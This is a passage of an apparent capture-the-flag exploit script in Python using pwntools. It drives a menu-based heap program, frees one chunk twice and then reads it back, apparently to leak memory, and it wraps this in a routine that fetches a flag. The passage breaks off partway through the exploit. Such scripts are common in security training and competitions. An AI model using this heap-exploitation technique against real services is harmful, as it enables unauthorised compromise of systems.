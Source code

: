 ```
        raw_input()


def Attack(target=None, sh=None, elf=None, libc=None):
    if sh is None:
        from Class.Target import Target
        assert target is not None
        assert isinstance(target, Target)
        sh = target.sh
        elf = target.elf
        libc = target.libc
    assert isinstance(elf, ELF)
    assert isinstance(libc, ELF)
    try_count = 0
    while try_count &lt; 3:
        try_count += 1
        try:
            pwn(sh, elf, libc)
            break
        except KeyboardInterrupt:
            break
        except EOFError:
            if target is not None:
                sh = target.get_sh()
                target.sh = sh
                if target.connect_fail:
                    return 'ERROR : Can not connect to target server!'
            else:
                sh = get_sh()
    flag = get_flag(sh)
    return flag


def choice(idx):
    sh.sendlineafter("&gt; Your choice :", str(idx))


def add(size, content='sh\x00'):
    choice(1)
    sh.sendlineafter("size :", str(size))
    sh.sendafter("Content :", content)


def show(idx):
    choice(2)
    sh.sendlineafter("Index :", str(idx))


def delete(idx):
    choice(3)
    sh.sendlineafter("Index :", str(idx))


def pwn(sh, elf, libc):
    print libc.path
    context.log_level = "debug"
    add(0x200)  # 0
    add(0x200)  # 1
    add(0x200)  # 2
    delete(0)
    delete(0)

    show(0)
```